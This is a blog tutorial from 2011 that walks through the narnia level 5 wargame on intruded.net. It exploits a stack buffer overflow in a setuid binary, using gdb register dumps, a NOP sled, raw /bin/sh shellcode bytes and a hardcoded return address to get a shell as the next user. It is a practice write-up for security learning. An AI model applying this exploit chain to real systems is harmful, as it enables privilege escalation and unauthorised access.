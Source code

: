 Title: intruded.net, narnia: level 5
Date: 2011/09/22 00:31
Tags: shellcode, intruded.net, x86, gdb
Author: Ken Ko
Category: tutorials

This looks a lot like level 3: executing shellcode in an environment variable by overwriting, presumably, the <strong>%eip</strong>. 

First things first: we find out that

<code>
/wargame/level5 `python -c 'print "A" * 124'`
</code>

will give us <em>Illegal instruction</em>. So, what do we do with this? Why gdb, of course. 

<code>
gdb /wargame/level5
...
(gdb) r `python -c 'print "A" * 124'`
...
(gdb) i r
eax            0x0      0
ecx            0xfffffdf9       -519
edx            0xbffffbd4       -1073742892
ebx            0xb7fdfff4       -1208090636
esp            0xbffff9d0       0xbffff9d0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0xb8000cc0       -1207956288
eip            0xb7ec7e00       0xb7ec7e00 <__libc_start_main+32>
</code>

Notice that <strong>%ebi</strong> is overwritten--but we want <strong>%eip</strong>! So, let's give this another try:

<code>
(gdb) r `python -c 'print "A" * 124 + "BCDE"'`
...
(gdb) i r
eax            0x0      0
ecx            0xfffffdfd       -515
edx            0xbffffbd4       -1073742892
ebx            0xb7fdfff4       -1208090636
esp            0xbffff9d0       0xbffff9d0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0xb8000cc0       -1207956288
eip            0x45444342       0x45444342
eflags         0x10246  [ PF ZF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
</code>

Now we see that the <strong>%eip</strong> gets hit, as well, by our overflow. 

Next, my idea is to NOP slide within these 124 bytes and have the <strong>%eip</strong> jump back into it. Not... totally sure how this will work out. 

Actually, <strong>because ASLR is off</strong>, can I assume that every time I run a program, we will have the same stack space, addresses, etc.? Let's try it out:

<code>
/*
 *      address of a particular string / buffer in memory
 */

#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
        printf("%x\n", argv[1]);
}
</code>

Let's run this a few times:

<code>
level5@narnia:/tmp$ ./addr `python -c 'print "A"*128'`
bffffb6b
level5@narnia:/tmp$ ./addr `python -c 'print "a"*128'`
bffffb6b
</code>

Success! Let's continue our gdb session:

<code>
(gdb) r `python -c 'print "\x90"*124 + "\x6b\xfb\xff\xbf"'`
...
eip            0xbffffbdb       0xbffffbdb
...
(gdb) x/x 0xbffffbdb
0xbffffbdb:     0x00000000
(gdb) x/x 0xbffffb6b
0xbffffb6b:     0x90909090
</code>

Not exactly sure why my <strong>%eip</strong> is now ending in <em>db</em> rather than <em>6b</em> because it looks like there isn't anything in that memory location. Going back to our intended <em>0xbffffb6b</em>, however, has us looking at NOPs. 

Brilliant.

Let's get our shellcode from earlier and add it to the end of the buffer. With some snazzy bash to calculate the required amount of NOPs, we can craft our string:

<code>
echo $(( 124 - 61 ))
...
(gdb) r `python -c 'print "\x90" * 63 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x1e\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xcd\x80\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41\x42\x42\x42\x42" + "\x6b\xfb\xff\xbf"'`
...
sh-3.1$ whoami                  
level5
sh-3.1$        
</code>

d'oh. Let's try this outside of gdb...

<code>
level5@narnia:/tmp$ /wargame/level5 `python -c 'print "\x90" * 63 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x1e\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xcd\x80\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41\x42\x42\x42\x42" + "\x6b\xfb\xff\xbf"'`
sh-3.1$ 
sh-3.1$ 
sh-3.1$ whoami
level6
</code>

I'm guessing the seteuid() doesn't work because we're trapped within gdb's borders. Just a guess.
